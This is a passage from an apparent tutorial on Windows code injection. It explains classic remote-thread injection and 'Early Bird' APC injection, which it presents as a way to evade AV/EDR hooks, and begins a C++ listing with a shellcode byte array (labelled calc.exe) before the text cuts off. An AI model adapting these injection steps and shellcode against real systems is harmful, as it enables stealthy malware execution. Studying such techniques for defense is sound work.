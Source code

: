 As shown above, Process A gets a handle of Process B first, and VirtualAllocEx allocates a memory buffer into the remote process B.  WriteProcessMemory writes Shellcode into the memory buffer. CreateRemoteThread creates a thread of shellcode inside Process B and the thread will be executed. For more details, you can check here. This is a well-explained code injection on a remote process.

[https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html)

Now that you know the process injection basics, let’s get down to APC injection.

First, we want to know what is APC.

Here are some simple explanations of APC.

- An *asynchronous procedure call* (APC) is a function that executes asynchronously in the context of a particular thread
- Each thread has a queue that stores all the APCs.
- When a user-mode APC is queued, queued APC functions are executed when the thread enters an alterable state.

[https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)

APC injection is a method of executing arbitrary code in the address space of a separate live process. It is used for evading process-based defenses as well as possibly elevating privileges.

APC injection is commonly performed by attaching malicious code to the APC Queue of a process's thread.


[[https://learn.microsoft.com/en-us/windows/win32/fileio/alertable-i-o](https://learn.microsoft.com/en-us/windows/win32/fileio/alertable-i-o)

This time I use  "Early Bird injection”. The advantage of this technique is the malicious behavior takes place early on in the process initialization phase, increasing the likelihood of going under the radar of some AV/EDR hooks.

Here are some steps 

- Create a new legitimate process in a suspended state
- Allocate memory buffer into the target process
- Write shellcode into the allocated buffer
- Queue an APC to the suspended thread
- Resume the thread and the shellcode is executed

This is the injection code below.


```cpp
#include<windows.h>


//payload to run calc.exe
unsigned char payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
```